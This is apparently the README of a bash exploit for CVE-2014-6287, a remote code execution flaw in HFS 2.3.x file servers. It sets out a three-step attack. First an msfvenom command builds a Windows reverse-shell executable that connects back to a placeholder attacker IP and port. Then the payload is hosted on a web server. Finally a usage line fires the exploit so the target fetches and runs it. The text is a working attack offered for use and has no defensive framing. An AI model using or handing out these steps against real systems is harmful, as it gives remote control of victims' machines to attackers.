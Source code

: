 # CVE-2014-6287
#HFS 2.3.x File Upload Exploit, RCE, that is only a bash version!!!
#Wrapper using GET tool !


Step 1 - Create reverse shell
    eg.: msfvenom -p windows/x64/reverse_tcp LHOST=Attacke_IP LPORT=Attacker_PORT -f exe > shell.exe
Step 2 - Start a Web-Server with the msfvenom payload in it
Step 3 - Fire exploit
    eg.: Usage: ./hfs.sh <Target_IP> <Target_Port> <Executable> <Local_IP>
